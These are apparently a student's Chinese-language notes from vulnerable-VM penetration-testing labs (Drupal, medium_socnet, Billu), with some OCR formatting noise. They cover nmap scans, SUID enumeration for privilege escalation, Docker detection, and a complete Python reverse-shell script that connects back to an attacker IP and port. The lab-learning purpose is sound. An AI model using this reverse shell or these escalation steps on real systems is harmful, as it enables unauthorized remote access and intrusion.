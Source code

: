 Can you use this same method to find or access the flag in root?

Probably. But perhaps it\'s not that easy. Or maybe it is?

信息收集无果后准备提权先试试sudo提权find / -perm -u=s -type f 2
\>/dev/null

发现find可以提权但是是sh不是bash

总结drupa服务不了解漏了三个flag

**medium_socnet**

信息收集nmap -A -P\* -sV -sS 192.168.249.131

发现开启了ssh和5000端口的http

index.php:留言板，写什么都会回显，\<?php
phpinfo();?\>也会回显，如果有应该文件包含网页可以直接shell连接

admin.php:一个使用python的代码测试网页使用python就可以反弹shell

python代码执行反弹shell的脚本如下：

import socket,os,subprocess

RHOST=\'192.168.249.130\' \# Change it

RPORT=4444 \# Change it

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM) \#
创建一个TCP-socket对象

s.connect((RHOST,RPORT)) \# 连接攻击者

os.dup2(s.fileno(),0)# 复制链接符

os.dup2(s.fileno(),1)

os.dup2(s.fileno(),2)

p=subprocess.call(\[\"/bin/sh\",\"-i\"\]) \# 创建子进程调用SHELL

反弹进入后uname -r 查看内核
，使用id查看权限，whoami查看当前用户发现竟然是root，这作者不简单啊，但是在根目录发现了dockerfile的文件，于是我们怀疑当前环境是docker容器环境，而不是真实的目标服务器环境

判断当前环境是否为docker环境、cat /**[proc/1/cgroup内包含"docker"
字符串就是docker环境]{.mark}**

[以我们要逃逸出来这个docker环境
真的阴险，还真的天真的浪费大把时间了?**?（知识盲区**]{.mark}）

**[后续是内网穿透（做不下去）]{.mark}**

**Billu**

信息搜集：

nmap -A -p\* 172.16.123.105

端口：22，80

OS: Ubuntu 12.4
